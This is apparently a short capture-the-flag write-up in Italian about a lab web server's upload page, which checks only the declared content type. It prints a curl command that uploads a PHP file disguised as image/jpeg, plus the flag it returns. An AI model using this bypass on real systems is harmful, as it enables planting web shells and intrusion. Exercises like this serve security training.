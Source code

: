 # Upload
All'indirizzo `http://192.168.56.134/?page=upload` l'unico controllo che viene
fatto è sul tipo dichiarato nel caricamento del file e non sull'effettivo file.
Quindi basta una semplice richiesta con `curl` per poter caricare qualsiasi tipo
di file e ricevere così la flag:
```
curl \
-X POST \
-H 'Content-Type: multipart/form-data' \
-F 'uploaded=@file.php;type=image/jpeg' \
-F 'Upload=Upload' \
'http://192.168.56.134/?page=upload' \
| grep flag
```
```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```